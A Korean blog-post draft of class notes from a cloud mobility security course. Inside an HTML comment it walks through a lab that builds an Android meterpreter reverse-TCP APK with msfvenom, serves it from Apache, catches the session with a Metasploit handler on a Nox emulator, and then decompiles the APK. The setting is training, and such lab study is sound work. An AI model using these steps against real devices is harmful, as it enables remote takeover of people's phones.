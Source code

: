 ```yaml
---
layout: post
title: 취약점 진단 및 대응 실무 2日 / SeSAC 성동캠퍼스1기
description: >
  [클라우드 기반의 모빌리티 융합보안 과정] 취약점 진단 및 대응 실무 2日차 수업 정리한 내용입니다.
#image: /assets/img/blog/cover-4.jpg
comments: true
#sitemap: false
published : false
categories: [study,security-vulnerability]
tags: [sesac,cloud,skshieldus,security-vulnerability]
related_posts:
#  - _posts/study/python/2023-10-31-day2.md
#  - _posts/study/python/2023-11-01-day3.md
#  - _posts/study/python/2023-11-02-day4.md
---
```

* toc
{:toc}

<style>.embed-container { position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden; max-width: 100%; } .embed-container iframe, .embed-container object, .embed-container embed { position: absolute; top: 0; left: 0; width: 100%; height: 100%; }</style><div class='embed-container'><iframe src='https://www.youtube.com/embed/' frameborder='0' allowfullscreen></iframe></div>

## 취약점 진단 및 대응 실무 / 4주차 2일자 수업

### 1. 

#### 1-1. 

<!-- kali에서

1. vm 네트워크 NAT 설정
2. sudo service apache2 restart
	웹 페이지를 오픈
3. ip확인

nox에서
1. 인터넷 브라우저로 ip에 접근하여 nox에서 kali로 접근되는지 확인 
----------------
kali에서
1. msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.40.128 LPORT=4444 R > 222.apk
2. sudo cp 222.apk /var/www/html/ # 생성된 악성코드를 웹 배포
3. msfconsole # 메타스플로잇 콘솔 실행
4. use exploit/multi/handler # 핸들러 설정
5. set payload android/meterpreter/reverse_tcp # 페이로드 설정
6. set LHOST 192.168.40.128 # ip설정
7. set LPORT 4444 # 포트 설정
8. set exitonsession false 
9. exploit -j #실행
nox에서
10.인터넷 브라우저로 접근하여 apk설치
11. tools 
-----------------
kali에서
1. sessions # 세션확인
2. sessions -i
3. sudo cp 222.apk /var/www/html/222.apk.zip




tasklist | findstr Nox(nox handler)
netstat  -ano | pid
adb connect 127.0.0.1:62001




cd /data/local/tmp
cd /data/data
cd 설치한 apk
ls -al
stat ./cache
cd /data/app/설치한apk

0.0.0.0 --- 127.0.0.1 차이 : 외부 vs 로컬


디컴파일
java -jar apktool_2.5.0.jar d 222.apk  // 디스어셈블링
자바 -> 클래스 -> 덱스 -> smali -> java
d2j-dex2jar.bat 222.apk -> 222-dex2jar.jar 파일 나옴. (class가 나옴) -->
